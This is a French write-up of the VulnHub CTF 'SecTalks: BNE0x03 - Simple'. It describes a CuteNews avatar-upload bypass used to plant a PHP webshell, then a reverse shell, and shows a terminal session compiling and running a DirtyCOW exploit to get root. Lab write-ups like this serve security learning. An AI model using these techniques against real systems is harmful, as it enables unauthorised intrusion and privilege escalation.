 # Solution du CTF SecTalks: BNE0x03 - Simple de VulnHub

[SecTalks: BNE0x03 - Simple](https://vulnhub.com/entry/sectalks-bne0x03-simple,141/) est un boot2root avec plusieurs indices que les habitués des CTFs pourront tout à fait ignorer :

> 1. Get a user shell by uploading a reverse shell and executing it.
> 2. A proxy may help you to upload the file you want, rather than the file that the server expects.
> 3. There are 3 known privesc exploits that work. Some people have had trouble executing one of them unless it was over a reverse shell using a netcat listener.

```
Nmap scan report for 192.168.56.104
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Ce début de CTF est exactement le même scénario que sur le CTF [Cute](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Cute%20de%20VulnHub.md) : on dispose d'une appli web `CuteNews` sur laquelle il est possible de s'enregistrer et déposer un shell PHP via la fonctionnalité l'upload d'avatar pour peu que notre script PHP ait un entête d'image valide pour passer les vérifications.

On obtient alors un webshell avec les droits `www-data`.

On obtient ensuite un shell interactif via l'upload et l'exécution d'un reverse-ssh.

Une recherche de vulnérabilités via `LinPEAS` remonte `DirtyCOW` comme étant la meilleure solution pour une escalade de privilèges. On s'exécute donc :

```shellsession
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c 
gcc: error trying to exec 'cc1': execvp: No such file or directory
www-data@simple:/var/www/html/uploads$ find / -name cc1 2> /dev/null 
/usr/lib/gcc/i686-linux-gnu/4.8/cc1
www-data@simple:/var/www/html/uploads$ export PATH=/usr/lib/gcc/i686-linux-gnu/4.8/cc1:$PATH
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
/tmp/ccVwkde8.o: In function `main':
cowroot.c:(.text+0x368): undefined reference to `pthread_create'
cowroot.c:(.text+0x38b): undefined reference to `pthread_create'
cowroot.c:(.text+0x3af): undefined reference to `pthread_create'
cowroot.c:(.text+0x3c4): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
www-data@simple:/var/www/html/uploads$ gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
www-data@simple:/var/www/html/uploads$ ./cowroot 
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@simple:/var/www/html/uploads# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
root@simple:/var/www/html/uploads# cd /root
root@simple:/root# ls
flag.txt
root@simple:/root# cat flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```

*Publié le 3 janvier 2023*
